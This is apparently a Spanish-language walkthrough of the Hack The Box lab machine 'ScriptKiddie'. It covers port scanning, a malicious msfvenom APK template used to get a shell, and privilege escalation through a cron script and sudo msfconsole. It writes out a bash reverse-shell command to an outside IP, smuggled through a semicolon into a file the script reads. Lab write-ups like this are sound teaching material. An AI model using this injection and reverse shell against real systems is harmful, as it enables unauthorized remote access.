









# Script Kiddie

<h1 align="center">
  <br>
  
  <br>
</h1>

***
**Machine IP**: ## 10.10.10.226

**DATE**  : 16/06/2021
***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -p- --open -T5 -v -n 10.10.10.226                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:45 EDT
Initiating Ping Scan at 20:45
Scanning 10.10.10.226 [2 ports]
Completed Ping Scan at 20:45, 0.12s elapsed (1 total hosts)
Initiating Connect Scan at 20:45
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 29.62% done; ETC: 20:46 (0:00:48 remaining)
Discovered open port 5000/tcp on 10.10.10.226
Completed Connect Scan at 20:46, 60.38s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).
Not shown: 52711 closed ports, 12822 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 60.62 seconds
```

Como vemos tiene 2 puertos abiertos el `22` y el `5000` uno con el servicio `ssh` y el otro con el servicio de `Plug and Play`, que se usa para conectar impresoras, dispositivos bluetooh, etc.

Analizando las versiones de los puertos abiertos encontramos lo siguiente.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -sC -sV -n -p22,5000 10.10.10.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:55 EDT
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
```

Econtramos que hay un `servidor web` corriendo en el puerto 5000 con la cabecera `k1d'5 h4ck3r t00l5`, lo abrimos en el navegador.



Luego de analizar estas 3 funcionalidades me di cuenta que la parte de `payloads` acepta un archivo , el cual podríamos generar con `msfvenom`, por eso buscamos en exploits `msfvenom` y nos genera solo un resultado.



Abrimos `mestasploit` para generar el apk con el payload, configuramos `LPORT` y `LHOST` con nuestra ip y el puerto asignado y nos genera un apk ,el cual procederemos a subir a la web como template.



Una vez generado subimos a la web y escribimos la ip de nuestra maquina y como OS seleccionamos android, ya que es una apk, luego ponemos en escucha nuestra maquina con el comando `nc -nlvp 4444` y le damos a generar.

Automáticamente se nos abrirá una reverse shell con el usuario kid.



Luego como tenemos acceso de escritura de la carpeta `.ssh`, añadiremos nuestro `id_rsa` a la carpeta de `known_hosts` para conectarnos directamente desde nuestra maquina via `ssh`.



Como vemos ahora tenemos una shell más interactiva y tenemos acceso al `user.txt`.



## Escalamiento de privilegios

Como podemos ver este script es ejecutado con permisos pwn, y nos dice que abrirá el archivo hackers para hacer un nmap. 
Al igual que la maquina bashed, se aprovecha de una tarea automática `cron`, que es ejecutado como usuario pwn, pero el log `hackers` se puede editar por `kid`, entonces esa será nuestra idea, cargaremos el archivo `hackers` con una `reverse shell bash`.


```bash
  echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.186/4446 0>&1' #" > hackers
```

Dejamos 2 espacios, ya que en el script de `scanlosers` al momento de tomar el texto toma a partir del 3er espacio porque hay un `cut -f3-`, que tomaria los paramatros a partir del 3ero. 



Como vemos obtuvimos una shell como pwn gracias al script `scanlosers` y ahora enumeraremos con sudo -l los binarios con permisos `SUID`

```bash
sudo -l
```



Como vemos metasploit tiene permisos `SUID` para ejecutarse como `root`, entonces lo ejecutamos con sudo msfconsole y bingo obtenemos sesión como root y podremos ver el `root.txt`

```bash
sudo msfconsole
```



!Gracias por leer.